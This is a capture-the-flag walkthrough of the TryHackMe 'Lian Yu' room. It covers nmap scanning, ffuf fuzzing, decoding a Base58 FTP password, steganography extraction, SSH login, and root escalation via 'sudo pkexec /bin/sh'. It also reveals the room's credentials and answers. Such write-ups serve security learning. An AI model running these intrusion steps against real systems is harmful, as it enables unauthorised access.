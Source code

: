 ```bash
# PLATFORM          . THM
# CTF NAME          . Lian Yu
# DESCRIPTION       . A beginner level security challenge
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/lianyu
```

```bash
sudo nmap -sSVC -T5 10.10.175.118 -p- -oN lian
```

```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.2
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 5650bd11efd4ac5632c3ee733ede87f4 (DSA)
|   2048 396f3a9cb62dad0cd86dbe77130725d6 (RSA)
|   256 a66996d76d6127967ebb9f83601b5212 (ECDSA)
|_  256 3f437675a85aa6cd33b066420491fea0 (ED25519)

80/tcp    open  http    Apache httpd
|_http-title: Purgatory
|_http-server-header: Apache

111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          40851/udp   status
|   100024  1          41723/tcp6  status
|   100024  1          42282/udp6  status
|_  100024  1          57863/tcp   status

57863/tcp open  status  1 (RPC #100024)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- The main page on the webserver didn't reveal anything useful, so I started fuzzing right away.

```bash
ffuf -u http://10.10.175.118/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```
island                  [Status: 301, Size: 236, Words: 14, Lines: 8]
```

```
Ohhh Noo, Don't Talk...............

I wasn't Expecting You at this Moment. I will meet you there

You should find a way to **Lian_Yu** as we are planed. The Code Word is:

vigilante
```

- There wasn't anything else on this page, so I've fuzzed again under `/island`

```bash
ffuf -u http://10.10.175.118/island/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```
2100                    [Status: 301, Size: 241, Words: 14, Lines: 8]
```

```
How Oliver Queen finds his way to Lian_Yu?
```

- Below was a video attached that wasn't available on YT anymore.

- In the source code, we find the following message

```
<!-- you can avail your .ticket here but how?   -->
```

- So I've fuzzed once more for `.ticket` 

```
ffuf -u http://10.10.175.118/island/2100/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -e .ticket
```

```
green_arrow.ticket      [Status: 200, Size: 71, Words: 10, Lines: 7]
```

```
This is just a token to get into Queen's Gambit(Ship)
RTy8yhBQdscX
```

- After a bit of playing on cyberchef.org, I've decoded this from Base58.

- I tried logging on ssh with `vigilante` and the password, but no luck. 
  
- But the credentials seem to be working on the FTP server.

```
ftp> ls -lah

drwxr-xr-x    2 1001     1001         4096 May 05  2020 .
drwxr-xr-x    4 0        0            4096 May 01  2020 ..
-rw-------    1 1001     1001           44 May 01  2020 .bash_history
-rw-r--r--    1 1001     1001          220 May 01  2020 .bash_logout
-rw-r--r--    1 1001     1001         3515 May 01  2020 .bashrc
-rw-r--r--    1 0        0            2483 May 01  2020 .other_user
-rw-r--r--    1 1001     1001          675 May 01  2020 .profile
-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
226 Directory send OK.

```

- I downloaded `.other_user` and the images to my local machine.

```
Slade Wilson was 16 years old when he enlisted in the United States Army, having lied about his age. After serving a stint in Korea, he was later assigned to Camp Washington where he had been promoted to the rank of major. In the early 1960s, he met Captain Adeline Kane, who was tasked with training young soldiers in new fighting techniques in anticipation of brewing troubles taking place in Vietnam. Kane was amazed at how skilled Slade was and how quickly he adapted to modern conventions of warfare. She immediately fell in love with him and realized that he was without a doubt the most able-bodied combatant that she had ever encountered. She offered to privately train Slade in guerrilla warfare. In less than a year, Slade mastered every fighting form presented to him and was soon promoted to the rank of lieutenant colonel. Six months later, Adeline and he were married and she became pregnant with their first child. The war in Vietnam began to escalate and Slade was shipped overseas. In the war, his unit massacred a village, an event which sickened him. He was also rescued by SAS member Wintergreen, to whom he would later return the favor.

Chosen for a secret experiment, the Army imbued him with enhanced physical powers in an attempt to create metahuman super-soldiers for the U.S. military. Deathstroke became a mercenary soon after the experiment when he defied orders and rescued his friend Wintergreen, who had been sent on a suicide mission by a commanding officer with a grudge.[7] However, Slade kept this career secret from his family, even though his wife was an expert military combat instructor.

A criminal named the Jackal took his younger son Joseph Wilson hostage to force Slade to divulge the name of a client who had hired him as an assassin. Slade refused, claiming it was against his personal honor code. He attacked and killed the kidnappers at the rendezvous. Unfortunately, Joseph's throat was slashed by one of the criminals before Slade could prevent it, destroying Joseph's vocal cords and rendering him mute.

After taking Joseph to the hospital, Adeline was enraged at his endangerment of her son and tried to kill Slade by shooting him, but only managed to destroy his right eye. Afterwards, his confidence in his physical abilities was such that he made no secret of his impaired vision, marked by his mask which has a black, featureless half covering his lost right eye. Without his mask, Slade wears an eyepatch to cover his eye.
```

- Not sure what to do with this ; 

- I tried opening all the images, and `Leave me alone` didn't work. 

- `file` was showing only `data`, and I've checked the magic numbers with `hexedit`. I couldn't find anything matching on wikipedia, so I assumed they were scrambled on purpose. I reverthed the first bytes back to `89 50 4E 47 0D 0A 1A 0A` - PNG.

- After this, I could open the image, which revealed the password.

- Not sure where to go from here, so I've checked the other images with `strings`, `binwalk` and `steghide`.

- `aa.jpg` asked for a passphase, so I've entered the password found earlier in the other image. 

- Inside, I could find a `ss.zip` zip file which contained `passwd.txt` and `shado` files.

```shado
M3tahuman
```

```passwd
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, Oliver learned how to be resourceful and 
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.
```

- I assume `M3tahuman` is the password. I tried SSHing with `vigilante` `ollie`, `oliver`, `shado`, `queen` and other usernames I could find around.

- However, back to our weird `.other_users` file, it seems that it actually contained the username we needed to gain access on the server - `slade`

```
User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

```bash
sudo pkexec /bin/sh
```

- First flag is in `/home/slade/user.txt`
- Second flag is in `/root/root.txt`

- Really annoying CTF :) 

